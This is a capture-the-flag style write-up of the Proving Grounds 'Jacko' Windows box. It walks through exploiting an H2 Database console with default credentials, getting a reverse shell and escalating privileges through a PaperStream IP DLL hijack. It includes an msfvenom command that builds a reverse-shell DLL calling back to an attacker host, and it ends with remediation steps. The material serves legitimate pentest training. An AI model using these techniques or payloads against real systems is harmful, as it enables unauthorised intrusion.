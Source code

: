 ```yaml
---
layout: writeup
title: Jacko - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Jacko Box from Proving Grounds
image: # /assets/images/Jacko/Jacko1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi]
---
```


Today I'm doing a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Jacko, and it is rated Intermediate by Proving Grounds and Hard by the community. As usual, we get started with an nmap (`sudo nmap -A -sC -v -p- --open 192.168.245.66 -oN nmap`) which (gives more detail but) shows these open ports:

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```


I check out port 80 which shows documentation for an app called H2 Database Engine:

![Jacko1.png](/assets/images/Jacko/Jacko1.png){: .responsive-image}

I click around to look for a version, but I can't find one. From reading about it a little bit, it looks like a way to manage/use an SQL database using the browser. I can also check port 8082, and it looks like that may be where the actual app is hosted. Port 80 may just be docs. 

![Jacko2.png](/assets/images/Jacko/Jacko2.png){: .responsive-image}

If I try to exploit the app, it may need to be done here on this port. I do note that when I click `Test Connection`, it does say "Test successful." So it's set up. And I didn't need to add a password. When I searched exploit-db for potential exploits for "H2 Database", I see a couple of interesting ones. [This](https://www.exploit-db.com/exploits/44422) one even has a default user of "sa" and default password of "", so that points to us being able to use `sa: ` for creds, as shown already in the screenshot. I copy this exploit to my machine and attempt to run it, but I get an error:

![Jacko3.png](/assets/images/Jacko/Jacko3.png){: .responsive-image}

It was basically the same for [this](https://www.exploit-db.com/exploits/45506) one from exploit-db and [this](https://gist.githubusercontent.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed/raw/152ffcd996497e01cfee1ceb7237375f1a1e72f2/h2-exploit.py) on from github, which appears to have been built off the former. But if we go back to port 8082 and try to actually connect, we can see that even though the connection is already established, we are taken to a portal:

![Jacko4.png](/assets/images/Jacko/Jacko4.png){: .responsive-image}


That explains how we are able to use [this exploit](https://www.exploit-db.com/exploits/49384) which at first glance appeared to require to be executed locally on the target machine. That linked exploit from exploit-db gives three commands to run consecutively, with the last one executing a `whoami` command as a test. The result:

![Jacko5.png](/assets/images/Jacko/Jacko5.png){: .responsive-image}

The service is being run as `jacko\tony`. We can use this to download a reverse shell and run it. Simply using nc to call our kali machine does not appear to work as the target cannot find the nc.exe file. Note that the file must be written to a writable directory, such as `C:\Users\tony\rev.exe`, but that in this case the `\`'s must be escaped, making the full path `C:\\Users\\tony\\rev.exe`. You can tell this because if you leave them out, you get an error saying there are too many arguments. If you try a number of other commands to get more information and see that the `\` mis removed in some of them in the output. 

![Jacko6.png](/assets/images/Jacko/Jacko6.png){: .responsive-image}

We have a shell. It quickly becomes clear that we cannot run some commands as-is but need to call the full path i.e. `C:\Windows\System32\whoami.exe` instead of `whoami`. I check my privileges with the `/priv` flag and see that we have `SeImpersonatePrivilege`, but I am not able to run a Potato attack such as PrintSpoofer:

![Jacko7.png](/assets/images/Jacko/Jacko7.png){: .responsive-image}

I transfer and run winpeas.exe at this point, but there's nothing that especially sticks out. At that point it makes sense to look around and see if there is anything interesting. There are a couple of unusual applications in the `Program Files (x86)` directory: 

![Jacko8.png](/assets/images/Jacko/Jacko8.png){: .responsive-image}

It looks like fiScanner provides functionality for scanning documents which could potentially have some kind of exploit, but I don't find any. PaperStream IP is driver software for a scanner, and it does have a public [Local Privesc exploit](https://www.exploit-db.com/) on exploit-db. The exploit tells you how to generate a dll file and where to put it before running the exploit. 

![Jacko9.png](/assets/images/Jacko/Jacko9.png){: .responsive-image}

We should also note that it is a powershell script (`.ps1`), either from looking at it or using searchsploit to copy it to our directory and noting the extension. Powershell is not located in the same directory as the other commands, so to enable it you must call the full path like so: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` Then you can run powershell commands. Unfortunately, when I run the `.ps1`, it does not do anything. This is because the msfvenom script suggested is for a 64-bit machine, and the target is a 32-bit machine. The msfvenom script should actually be: `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.240 LPORT=445 -f dll -a x86 --platform windows -o 445.dll`. When we transfer that to the `C:\Windows\Temp` directory as before. 

![Jacko10.png](/assets/images/Jacko/Jacko10.png){: .responsive-image}

### Lesson Learned
Apparently in cases like this where we have to call the full path, we can just set the path by running: `set PATH=%SystemRoot%\system32;%SystemRoot%;`. I probably should have known there was a way to do that. 

### Remediations Steps
- Add a password to the H2 Database user
- Patch the H2 Database application
- Patch the PaperStream application
- Consider disabling the `SeImpersonatePrivilege` for user:`tony` if not required. I didn't wind up using it, but I did find a writeup that did (along with a meterpreter shell). [That writeup](https://medium.com/@Dpsypher/proving-grounds-practice-jacko-d42c9c1e7f9e) used GodPotato to get a shell that died multiple times, but I tried with SweetPotato and PrintSpoofer and did not get any kind of response. 